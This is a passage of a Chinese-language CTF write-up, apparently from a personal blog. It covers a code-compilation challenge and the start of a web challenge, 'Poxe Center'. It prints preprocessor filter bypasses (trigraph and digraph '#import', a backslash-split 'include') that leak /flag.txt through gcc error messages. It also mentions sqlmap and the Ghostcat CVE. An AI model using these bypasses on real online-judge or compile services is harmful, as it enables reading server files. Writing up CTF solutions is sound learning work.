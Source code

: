 ![image-20210816233522899](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210816233522899.png)

但是捏，它并不需要你具体写出来code，标答已经给出（虽然我憨憨的一开始没发现自己还写了一份）

```c
int a[12];for(int i=0;i<12;i++)scanf("%d",a+i);int ans=0;int mod=36;for(int i=0;i<6;i++)for(int j=6;j<12;j++)if(a[i]>a[j])ans++;for(int i=2;i<36;i++)while(ans>=i&&ans%i==0&&mod%i==0)ans/=i,mod/=i;printf("%d/%d",ans,mod);
```

当然直接访问/flag.txt又是不可以的

![image-20210817001655162](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210817001655162.png)

问题就转化为了如何在输出为符合样例要求的标准输出的情况下还能打印一份地址已知的flag.txt出来

由于gcc既能编译c也可以编译c++，这里用import来绕过对include的限制；而对于#的绕过可以参见->[Digraphs and trigraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs)

```c++
??=import "/flag.txt"
%:import "/flag.txt"
```

相当于[#import "/flag.txt"](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs)，从gcc编译时的报错信息可以得到flag

或者用反斜杠+换行的形式

```c
??=incl\
ude "/flag.txt"
```

也可以绕过对include的过滤

`SCTF{take-care-when-execute-unknown-code}`

————类似的题之前做过一个[[FireshellCTF2020]Caas](https://imagin.vip/?p=1063#CaaS)，也是预处理遍历报错出flag

————在看了[别的师傅的wp](https://zhuanlan.zhihu.com/p/401197671)之后看到了另一种解法，从未设想过的道路

## Web/Poxe Center

> how to get legendary poxemon?

看了[wp](https://github.com/theori-io/ctf/blob/master/2021/SSTF2021/SSTF%202021%20The%20Duck%20-%20Write%20Up%20-%20rev%201.pdf)，直接sqlmap一把梭

![image-20210904145411586](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210904145411586.png)

不过官方的预期解wp更复杂一些：

先爆目录/docs/

![image-20210904152658881](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210904152658881.png)

这个版本下有[CVE-2020-1938 - Ghostcat](https://www.chaitin.cn/zh/ghostcat)，相关文章参考->[不调试源码重现 Ghostcat 漏洞 (CVE-2020-1938)](https://paper.seebug.org/1147/)
